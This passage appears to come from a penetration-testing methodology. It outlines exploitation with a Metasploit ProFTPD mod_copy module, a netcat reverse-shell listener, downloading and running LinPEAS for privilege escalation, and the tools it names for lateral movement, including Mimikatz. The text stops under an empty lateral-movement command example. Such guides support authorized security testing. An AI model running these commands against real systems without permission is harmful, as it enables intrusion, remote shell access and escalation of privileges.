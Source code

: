     Objective: Exploit identified vulnerabilities to gain access.
    Tasks:
        Develop or customize exploits for identified vulnerabilities.
            Customize existing exploits or create new ones if required.
            Tools: Exploit-DB, Metasploit, Python scripts.
        Use tools like Metasploit to exploit vulnerabilities.
            Command Example:

            bash

    msfconsole
    use exploit/unix/ftp/proftpd_modcopy_exec
    set RHOST 192.168.1.10
    set RPORT 21
    run

Establish a foothold on the compromised system.

    Tools: Netcat, SSH.
    Command Example:

    bash

            nc -lvp 4444

                This command opens a listening reverse shell on port 4444.

4.2. Privilege Escalation

    Objective: Gain higher privileges on the compromised systems.
    Tasks:
        Identify misconfigurations or vulnerabilities for privilege escalation.
            Tools: LinPEAS, WinPEAS, GTFOBins for Linux, PowerUp for Windows.
            Command Example:

            bash

    wget https://github.com/carlospolop/PEASS-ng/releases/download/20230801/linpeas.sh
    chmod +x linpeas.sh
    ./linpeas.sh

Exploit privilege escalation opportunities.

    Tools: Exploitation Scripts, Manual Techniques.
    Command Example:

    bash

            sudo -l

                Check for misconfigurations in sudo privileges.
        Secure administrative or root access.
            Tools: Rootkits, Persistence Scripts.

4.3. Lateral Movement

    Objective: Move across the network to compromise additional systems.
    Tasks:
        Use harvested credentials to access other systems.
            Tools: Impacket, Mimikatz for Windows.
            Command Example:
